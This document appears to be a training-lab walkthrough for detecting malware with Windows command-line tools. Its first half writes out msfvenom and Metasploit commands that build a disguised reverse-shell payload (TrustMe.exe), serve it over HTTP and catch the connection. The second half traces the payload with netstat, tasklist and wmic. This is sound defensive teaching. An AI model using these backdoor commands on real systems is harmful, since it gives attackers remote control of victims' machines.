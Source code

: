 

# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let's get started.

Let’s get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

![](attachments/Clipboard_2020-07-09-15-52-24.png)

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.


root@DESKTOP-I1T2G01:/tmp/# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments/Clipboard_2020-06-12-12-46-10.png)

Now, let’s surf to your Linux system, download the malware and run it!

Simply open an Edge browser to `http://<YOUR LINUX IP>:8000`

![](attachments/Clipboard_2020-07-09-15-54-29.png)

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

![](attachments/Clipboard_2020-07-09-15-55-05.png)
You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session.

![](attachments/Clipboard_2020-06-12-12-55-11.png)

Now, let's look at the malware from the other side through the Windows commandline slides!

Please, remember, your IP address will be different!!! 

Now, let's open another Command Prompt from our Terminal:

![](attachments/Clipboard_2020-12-09-13-24-45.png)

Once we are in, lets start with looking at the network connections:

We will start with C:\>`net view`

In this example, our malware will not have any sessions at all:

![](attachments/Clipboard_2020-12-09-13-27-00.png)

We will get the same lack of connections from C:\>`net session`

![](attachments/Clipboard_2020-12-09-13-27-35.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try 

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-41-32.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/Clipboard_2020-12-09-13-41-54.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

C:\>`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/Clipboard_2020-12-09-13-48-21.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) so we can dig deeper:

C:\>`netstat -naob`

![](attachments/Clipboard_2020-12-09-13-49-49.png)

![](attachments/Clipboard_2020-12-09-13-50-01.png)

We can see in the above screenshot that we have the PID.

Now, let's dive in!

First we will start with tasklist  

C:\>`tasklist /m /fi "pid eq [PID]"`

Your PID WILL BE DIFFERENT!

![](attachments/Clipboard_2020-12-09-13-55-22.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

C:\>`wmic process where processid=[PID] get commandline`

![](attachments/Clipboard_2020-12-09-13-58-16.png)

Ahh!!  Now we can see that the file was launched from the Edge temp downloads directory!  So, now we know it was downloaded from the Internet.


Let's see if we can see what spawned the process with wmic.

C:\> `wmic process get name,parentprocessid,processid`

![](attachments/Clipboard_2020-12-09-14-01-04.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the browser_broker.exe process.  This once again, shows us that this process was launched from the browser. 










 


